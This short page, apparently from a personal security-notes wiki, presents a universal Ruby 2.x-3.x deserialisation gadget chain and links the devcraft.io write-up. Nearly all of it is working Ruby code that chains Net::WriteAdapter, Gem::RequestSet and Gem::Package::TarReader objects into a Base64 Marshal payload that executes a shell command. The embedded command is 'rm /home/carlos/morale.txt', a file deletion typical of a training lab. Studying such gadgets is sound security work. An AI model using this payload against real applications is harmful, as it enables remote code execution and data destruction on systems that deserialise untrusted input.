 ## Universal Deserialisation Gadget for Ruby 2.x-3.x

{% embed url="https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html" %}

```ruby
require 'base64' # to encode output 
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload) 
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
